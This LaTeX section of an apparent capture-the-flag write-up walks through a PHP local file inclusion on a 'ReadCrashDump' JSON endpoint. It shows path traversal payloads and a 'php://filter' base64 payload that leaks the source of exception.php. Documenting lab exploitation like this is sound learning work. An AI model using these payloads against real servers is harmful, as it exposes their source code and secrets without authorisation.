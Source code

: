 \documentclass[writeup.tex]{subfiles}
\begin{document}
			\begin{lstlisting}[columns=fullflexible,breaklines]
{
	"operation": "ReadCrashDump",
	"data": {
		"crashdump": "../docs/crashdump-DfRjM9"
	}
}
			\end{lstlisting}
			
			Gets me the same output as before, meaning that we can either traverse directories or that it somehow gets filtered out. So, let's see if it's possible to read the exception.php file.
			
			\begin{lstlisting}[columns=fullflexible,breaklines]
{
	"operation": "ReadCrashDump",
	"data": {
		"crashdump": "../exception"
	}
}
			\end{lstlisting}
			
			Nothing's ever that easy, is it? Well, that gives the 500 error from above. So what's next. Depending on how the files are included on the server, when calling ReadCrashDump, there are a few options. PHP have this little neat protocol called 'php://' and with this, you can call all sort of neat functions to be executed. Now there are plenty of articles about this exploit. Here\footnote{\url{https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/}}, here\footnote{\url{https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities}} and many other places. Just search for 'PHP Local File Inclusion' or LFI for short.
			
			\begin{lstlisting}[columns=fullflexible,breaklines]
{
	"operation": "ReadCrashDump",
	"data": {
		"crashdump": "php://filter/convert.base64-encode/resource=../exception"
	}
}
			\end{lstlisting}
			
			This beauty does return a lot of base64 encoded stuff! Decoding it gives us
			
			\begin{figure}[H]
				\centering
				\includegraphics[width=\linewidth]{"screenshots/pwns/Site 5 - curl 7"}
			\end{figure}
			
			This solving this challenge.
			
\end{document}
